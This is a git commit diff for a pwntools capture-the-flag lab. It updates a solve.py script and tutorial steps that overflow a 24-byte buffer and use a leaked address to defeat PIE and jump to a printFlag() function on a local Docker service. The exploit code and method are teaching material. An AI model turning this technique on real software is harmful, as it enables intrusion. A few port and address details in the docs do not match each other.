

updating doc, images and script

diff --git a/Pwntools-Lab/Binary/code/solve.py b/Pwntools-Lab/Binary/code/solve.py
@@ -8,22 +8,25 @@ from pwn import *
 host="localhost"
 port=1342
 
-p = remote(host, port)
+process = remote(host, port)
 
 start_offset = 0x00000000000012da
 printFlag_offset = 0x0000000000001255
 
-given_start_address = p.recv().decode().split('\n')[-3].split('0x')[-1]
+address_sentence = process.recv().decode().split('\n')[-3]
+given_start_address = address_sentence.split('0x')[-1]
+
 printFlag_address = int(given_start_address,16) - start_offset + printFlag_offset
-log.info('Address of start: 0x{}'.format(given_start_address))
-log.info('Address of printFlag: {}'.format(hex(printFlag_address)))
+
+buffer_size = 24
 
 payload = [
-    b'A' * 24,
+    b'A' * buffer_size,
     p64(printFlag_address)
 ]
 
-payload = b"".join(payload)
-log.info('Sending Payload...')
-p.sendline(payload)
-p.interactive()
+payload = b''.join(payload)
+
+process.sendline(payload)
+
+process.interactive()

diff --git a/Pwntools-Lab/Documentation/section1/Step2.md b/Pwntools-Lab/Documentation/section1/Step2.md
@@ -7,16 +7,37 @@ The vulnerable function which is exploitable is: ```scanf()```. The function has
 ## Installing pwntools
 Follow the instruction on in the [documentation](https://docs.pwntools.com/en/stable/install.html) of pwntools to install it on your VM. To use the Command-Line Tools of pwntools you have to add it to the PATH which is done by opening ```.zshrc``` (file from which interactive shells read commands) in /\<user> and add "export PATH="/home/\<user>/.local/bin:$PATH" at the end. Restart your terminal. Then check if your Command-Line Tools work by entering ```pwn``` in your terminal. 
 
+## Preparation
+First we inspect the file with:
+```sh
+file <filename>
+```
+![File Command](../images/file-cmd.png)
+
+This command shows what type of ELF it is (in this case a 64 Bit binary) and which interpreter it needs to run (musl). This can be installed by entering:
+```sh
+sudo apt-get install musl
+```
+Now youre ready to exploit!
+
 ## Find the buffersize
 Finding the buffersize can be done by bruteforcing it with string which is increased each iteration. Pwntools has some tools to make it more interesting. Check out the [documentation](https://docs.pwntools.com/en/stable/commandline.html) for an overview of Command-Line Tools.
 
-Start by generating a string using ```pwn cyclic 40```. This returns you a the first 40 characters of a predefined string. This is useful for finding out the buffer size since a certain response can be looked up.
+Start by generating a string using ```pwn cyclic 30```. This returns you a the first 30 characters of a predefined string. This is useful for finding out the buffer size since a certain response can be looked up.
 
 echo the string into the binary with ```echo "<cyclic_string>" | ./<file_name>```.
 
-You will get a Segmentation Fault which you can check with ```sudo dmesg | tail``` (Prints the tail of the message buffer of the kernel). You will see a message similar to "segfault at XXXX". 
+You will get a Segmentation Fault which you can check with ```sudo dmesg | tail``` (Prints the tail of the message buffer of the kernel). You will see a message similar to "segfault at --XXXX". 
 
-Enter ```pwn cyclic -l 0x<XXXX>``` into your terminal to get the buffer size. This command looks up the value you gave it in the predefined string. 
+Cyclic can only interpret 32 Bit input which is why you take the last 4 Bytes shown. 
+
+Enter ```pwn cyclic -l 0x<XXXX>``` into your terminal to get the buffer size (should be 24). This command looks up the value you gave it in the predefined string. 
+
+To confirm the size you can use python:
+```sh
+python -c "print('A'*<buffersize>+'CAFEFE')" | ./server
+``` 
+Reading the kernel messages again shows you that the program tried to reach the address "FEFEAC", confirming the buffersize.
 
 
 

diff --git a/Pwntools-Lab/Documentation/section1/Step4.md b/Pwntools-Lab/Documentation/section1/Step4.md
@@ -12,23 +12,28 @@ Since its a PIE the starting address is random but the offsets are constant. You
 
 ![Readefl Output](../images/readelf.png)
 
-These offsets can be used to caculate the address to get to printFlag from start: 
+The idea is to find the address of the printFlag() function using the given address of the start() function. 
 
 ```
-start: 0x0000126b
-printFlag: 0x000011ed
-main: 0x000012c4
-
-address_of_start = random_start + 0x0000126b
-address_of_printFlag = random_start + 0x000011ed
+start: 0x00000000000012da
+printFlag: 0x0000000000001255
+main: 0x000000000000133f
+```
+Since the binary has PIE enabled it uses a random base address with the above shown offsets to reach each function. 
+```
+address_of_start = random_start + 0x12da
+address_of_printFlag = random_start + 0x1255
 address_of_start = <given>
-
-random_start = address_of_start - 0x0000126b
-random_start = address_of_printFlag - 0x000011ed
-
-<given> - 0x0000126b = address_of_printFlag - 0x000011ed
-
-address_of_printFlag = <given> - 0x0000126b + 0x000011ed
-
-address_of_printFlag = <given> - 126
 ```
+The binary shows the current function of start() on each iteration which means subtracting the offset from it results in the base address (same with the printFlag() function).
+```
+random_start = address_of_start - 0x12da
+random_start = address_of_printFlag - 0x1255
+```
+Now its just a matter of substitution.
+```
+<given> - 0x12da = address_of_printFlag - 0x1255
+
+address_of_printFlag = <given> - 0x12da + 0x1255
+```
+This shows that its just a matter of first subtracting the offset from the given address to get to the base address and then adding the offset of the printFlag() function to it to get the address of printFlag(). 

diff --git a/Pwntools-Lab/Documentation/section1/Step5.md b/Pwntools-Lab/Documentation/section1/Step5.md
@@ -1,5 +1,5 @@
 # Send Payload with PWN script
-To subtract the calculated value from the start address you first have to tell python to make it an int. 
+To add and subtract the hexvalues from the start address you first have to tell python to make it a base 16 int. 
 
 ![Flag Address](../images/python-1.4.png)
 
@@ -7,8 +7,17 @@ Next we generate the payload for the script. We found out the buffersize in Step
 
 ![Generate Payload](../images/python-1.5.png)
 
-The PWN library allows to generate a 32 bit output from the calculated int and pass it into the payload.  
+The PWN library allows to generate a 64 bit output from the calculated int and pass it into the payload.  
 
 To see what the programm receives you have to make it interactive by adding "process.interactive()"
 
-Running the finished programm now gives you the desired flag. 
+Running the finished programm should show the "SUCCESS!" message.
+
+## Remote
+The message shows that the script is working and reaches the printFlag() function. Now, make it connect to the remote docker instance which is running by modifing the code:
+
+The only thing that needs to be changed is the process variable. Now instead of a local file the script has to make a remote connection to localhost on port 1342. For this, instead of running the process as an elf instance, remote is used.
+
+![Remote](../images/python-1.6.png)
+
+Run the script again and receive the flag. 

diff --git a/Pwntools-Lab/Documentation/section1/Step1.md b/Pwntools-Lab/Documentation/section1/Step1.md
@@ -1,4 +1,5 @@
 # Find a way to exploit the program
+Connect to localhost and download the binary to inspect it. \
 When you open the binary in IDA and wait for the initial analyzation youll see the main function displayed, which you can verify by checking for familiar strings ("Wrong password entered"):
 
 ![Main Function](../images/main-function.png)

diff --git a/Pwntools-Lab/Documentation/section1/_Text.md b/Pwntools-Lab/Documentation/section1/_Text.md
@@ -3,7 +3,7 @@
 You will learn how to use the tools it provides to exploit a program and find the hidden flag. \
 Start the service from ```RESOURCES``. The docker is offering two ports (web and socket port). 
 - port 80
-- port 1345
+- port 1342
 
 Try to find a way to exploit port 1345 using ```pwntools```.
 
